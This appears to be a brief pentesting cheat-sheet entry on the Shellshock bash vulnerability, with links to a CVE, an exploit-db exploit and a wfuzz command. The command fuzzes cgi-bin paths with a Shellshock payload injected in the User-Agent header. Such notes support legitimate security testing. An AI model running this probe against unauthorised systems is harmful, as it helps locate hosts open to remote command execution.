 # Shellshocked
[infosecarticles](https://www.infosecarticles.com/exploiting-shellshock-vulnerability/)
[cve](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278)

[python2](https://www.exploit-db.com/exploits/34900)


[Wfuzz](https://wfuzz.readthedocs.io/en/latest/) can both enumerate `cgi-bin` scripts (using a wordlist) and test them for Shellshock:
```bash
wfuzz -v -c -H "User-agent: () { :;}; echo; echo vulnerable" --ss vulnerable -t 50 -w /usr/share/seclists/Discovery/Web-Content/CGIs.txt http://xx.xx.xx.xx/FUZZ
```


![owasp](Images/shellshock-methodology.png)

## References

[infosecinstitute](https://resources.infosecinstitute.com/topic/bash-bug-cve-2014-6271-critical-vulnerability-scaring-internet/)